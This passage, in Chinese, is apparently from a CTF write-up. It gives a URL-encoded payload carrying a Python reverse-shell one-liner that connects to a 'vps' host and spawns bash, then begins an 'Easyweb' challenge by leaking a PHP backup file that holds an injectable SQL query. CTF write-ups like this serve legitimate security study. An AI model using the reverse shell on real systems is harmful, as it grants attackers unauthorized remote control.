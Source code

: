 开启监听, 就能够获得目标主机的`shell`了

payload: (这里还需要将下面的shell中的值url编码)

```
/no_one_know_the_manager?key=JLAwm2xCtqkgNGJTHgPPocxTSLbWX4q7FVxQDxFCi/w=&shell=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("vps",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```



<br>

***

<br>

# [bak泄露,盲注(踩坑多),php短标签上传]Easyweb

![image-20221027155154807](../images/buuctf-web3/image-20221027155154807.png)

`image.php`根据`id`显示不同的图片

看到输入框,先找了半天注入点.....

访问`robots.txt`:

```
User-agent: *
Disallow: *.php.bak
```

经过尝试,可以下载`image.php.bak`:

```php
<﻿?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id); //给单双引号前面加上反斜杠
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```
